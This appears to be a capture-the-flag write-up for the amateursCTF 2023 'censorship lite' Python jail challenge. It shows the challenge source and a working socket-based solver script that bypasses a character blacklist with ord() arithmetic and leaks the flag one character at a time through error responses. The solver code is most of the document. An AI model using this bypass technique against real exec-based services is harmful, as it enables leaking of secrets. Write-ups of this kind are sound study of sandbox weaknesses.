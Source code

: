 # censorship lite

you may want to read my [censorship](https://github.com/quasar098/ctf-writeups/tree/main/amateursctf-2023/censorship) writeup for background knowledge

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/9b52555e-eb00-4671-898d-1efbaa164e90)

```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "\lite0123456789"]):
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

## solution

here, a lot more chars a disallowed, notably the number characters

we can emulate numbers by subtracting the ascii value of integers using `ord` function

we have access to the errors, so we can test if a boolean is true by checking a one-char string with index of the boolean (true=1=error big time!!!, false=0=nothing happens)

```py
import socket
from time import sleep

HOST = "amt.rs"
PORT = 31671

chars = "abcdfghjkmnopqrsuvwxyz"
chars += chars.upper()
chars += "_{}.:-=+[]()*!@#$%^&<>,./?"
l_index = -1

total = ""
while True:
    l_index += 1
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.recv(1024)
        for char in range(48, 126):
            repeat = 'ord("b")-ord("a")+'
            index = chr(ord("a")+l_index)
            payload = f'"a"[ ord(_[ ord("a")-ord("a")+{(repeat*l_index)[:-1]} ])-' + \
                      f'( {(repeat*char)[:-1]} ) % ((ord("P")-ord("@"))*(ord("P")-ord("@") )) != (ord("P")-ord("P")) ]\n'
            s.send(payload.encode('ascii'))
            data = s.recv(65536).decode('ascii')
            sleep(0.004)
            if data.startswith("Give code"):
                total += chr(char)
                print(chr(char), l_index, total)
            # data = s.recv(1024)
            # print(char, data)

# amateursCTF{sh0uldv3_r3strict3D_p4r3nTh3ticaLs_1nst3aD}
```

we check the ascii value of each char in the flag against each number 0-255, and then get the letter at an index of a one-char string (`"a"[index]`) to get the flag via error detection

defo overengineered solution, but really close to the [censorship-lite++](https://github.com/quasar098/ctf-writeups/tree/main/amateursctf-2023/censorship-lite++) solution
